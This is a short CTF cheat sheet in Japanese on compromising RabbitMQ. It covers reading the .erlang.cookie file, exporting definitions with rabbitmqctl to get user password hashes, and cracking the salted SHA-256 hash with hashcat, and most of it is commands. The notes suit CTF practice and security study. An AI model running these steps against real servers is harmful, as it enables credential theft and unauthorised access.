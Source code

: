 # RabbitMQ

## CTF 定石

1. Cookie を入手
1. 設定をエクスポート（パスワードハッシュが含まれる）
1. パスワードをオフラインクラック

## 手順

### Cookie を入手

```
/var/lib/rabbitmq/.erlang.cookie
または、誰かのホームディレクトリ
/home/user/.erlang.cookie
```

### 設定をエクスポート

```shell
# 名前確認
azrael@forge:~/chatbotServer$ epmd -names
epmd: up and running on port 4369 with data:
name rabbit at port 25672
```

```shell
sudo rabbitmqctl --erlang-cookie 'COOKIE_STRING' --node rabbit@<IP> export_definitions ./definitions.json
```

```shell
cat /tmp/definitions.json | jq '.users[] | select(.name == "root")'
```

### パスワードクラック

`base64( SHA256( password + salt ) + salt )`

- ソルトは ランダムな 4 バイト
- ハッシュとソルトを連結して base64 でエンコード
- hashing_algorithm が "rabbit_password_hashing_sha256"

```shell
# 先頭4バイト（8文字）がSaltになるので、hash:salt の形に加工する
echo -n 'ハッシュ' | base64 -d | xxd -p -c 100 | awk '{print substr($0, 9) ":" substr($0, 1, 8)}'
```

出力例：  
`295.............................73585:e3d7ba85`

```shell
# クラック
hashcat -m 1410 -a 0 hash.txt rockyou.txt
```
